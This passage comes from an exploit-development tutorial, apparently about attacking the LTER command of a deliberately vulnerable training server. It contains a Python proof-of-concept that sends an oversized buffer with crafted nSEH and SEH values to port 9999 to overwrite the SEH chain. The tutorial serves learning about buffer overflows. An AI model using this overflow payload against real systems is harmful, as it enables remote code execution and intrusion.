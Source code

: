 ##### Nice! Now we can select the second or third address to use in order to overwrite the SEH value, as these are ascii printable.

###### PoC code:

```term
import socket, sys, struct

nseh = struct.pack("<I", 0x06710870)
seh = struct.pack("<I", 0x6250195E)

buffer = "LTER /.:/" + "A" * 3515 + nseh + seh + "C" * 200

host = sys.argv[1]

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((host, 9999))

s.send(buffer)

s.close()
```

###### Response of the SEH Chain.

![](/assets/img/LTER/8.png)

##### If this is run, it will display a black screen, as 200 C's are more than the server is able to handle. Due to this, we just grab a pointer address and scroll down, just to find our executed code.
